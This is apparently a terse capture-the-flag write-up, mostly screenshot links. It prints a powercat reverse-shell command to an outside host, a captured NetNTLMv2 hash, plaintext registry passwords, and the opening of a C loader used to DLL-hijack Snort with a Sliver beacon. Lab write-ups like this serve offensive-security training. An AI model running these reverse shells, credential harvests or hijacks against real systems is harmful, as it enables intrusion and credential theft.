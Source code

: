 ```
start-job { C:\inetpub\internal\dashboard\uploads\powercat -c 10.10.14.54 -p 33060 -e cmd.exe }
```

The beyond root for this machine is decided to change the language of this machine to English
![](beyondroot-changethelanguagebacktoenglish.png)

![](encodedmessage.png)

![](mainfeaturebestcrypttextencoder.png)

![](nowinserver2019.png)

![](thismanisnotinformative.png)

![](checkforbctedrive.png)

![](svcwebhash.png)

```
svc_web::ANALYSIS:1122334455667788:da0f5ffc1280eeaae73e38c8f7315f96:0101000000000000dfc5c232d64fda01b136c3ea34076cb100000000080030003000000000000000000000000021000044249e03d7a426c92dfe991abf5fc59a80e526687feabce8deb92d427d5f02280a00100000000000000000000000000000000000090000000000000000000000
```

![](anotherlistpassword.png)

```


N1G6G46G@G!j

```

![](wpfoundautologoncredentials.png)

![](defaultyjdoepasswrodintheregistry.png)

```
7y4Z4^*y9Zzj
```

![](dllhijacking.png)


![](wearejdoe.png)

![1080](runbat.png)

Going on a n3ph0s advise to dll hijack snort I use phind to load my sliver beacon like an idiot just to do something while just to see how far that would actually get me...
```c
#include <windows.h>
#include <stdio.h>

int main( void )
{
	FILE *fp = fopen("C:\programdata\c.exe", "rb");
	if (fp == NULL) {
	    printf("Failed to open file\n");
	    return 1;
	}
	fseek(fp, 0, SEEK_END);
	long filesize = ftell(fp);
	fseek(fp, 0, SEEK_SET);

```